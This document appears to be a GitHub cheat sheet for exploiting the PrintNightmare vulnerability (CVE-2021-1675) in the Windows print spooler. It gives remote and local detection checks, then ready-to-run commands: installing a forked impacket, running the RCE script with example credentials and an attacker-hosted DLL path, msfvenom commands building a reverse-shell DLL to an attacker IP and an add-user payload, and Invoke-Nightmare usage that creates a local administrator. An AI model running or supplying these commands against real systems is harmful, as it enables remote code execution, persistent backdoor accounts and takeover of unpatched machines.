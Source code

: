 # Remote Detection
When running:
```bash
rpcdump.py @<VICTIM_IP> | egrep 'MS-RPRN|MS-PAR'
```

*if the computer is vulnerable,* the output should be:
```
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
```

# [RCE](https://github.com/cube0x0/CVE-2021-1675)

## Installation
```bash
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```
## Usage
```
usage: CVE-2021-1675.py [-h] [-hashes LMHASH:NTHASH] [-target-ip ip address] [-port [destination port]] target share

CVE-2021-1675 implementation.

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>
  share                 Path to DLL. Example '\\10.10.10.10\share\evil.dll'

optional arguments:
  -h, --help            show this help message and exit

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH

connection:
  -target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is the NetBIOS name
                        and you cannot resolve it
  -port [destination port]
                        Destination port to connect to SMB Server
```
## Example
```bash
CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'
```

## DLL payloads
### Reverse Shell
```bash
msfvenom -p windows/shell/reverse_tcp LHOST=20.20.20.129 LPORT=9000 -f dll > rev.dll
```
### Adduser Payload
```
msfvenom -p windows/adduser USER=<USERNAME> PASS=<PASSWORD_MATCHING_COPLEXITY>
```

---
---

# Local Detection
When runnnig:
```shell
REG QUERY "HKLM\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint"
```
*if the computer is vulnerable,* the output should be:
```
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint
    RestrictDriverInstallationToAdministrators    REG_DWORD    0x0
    NoWarningNoElevationOnInstall    REG_DWORD    0x1
```

*Also,* the print spooler service should running
```shell
gsv spooler
```

# [LPE](https://github.com/calebstewart/CVE-2021-1675)
## Usage (Creating Local Admin)
```
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare -DriverName "<ANY_NAME>" -NewUser "<USERNAME>" -NewPassword "<PASSWORD_MATCHING_COPLEXITY>"
```
## Usage (Custom DLL)
```
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare -DLL "<FULL\PATH\TO\DLL>"
```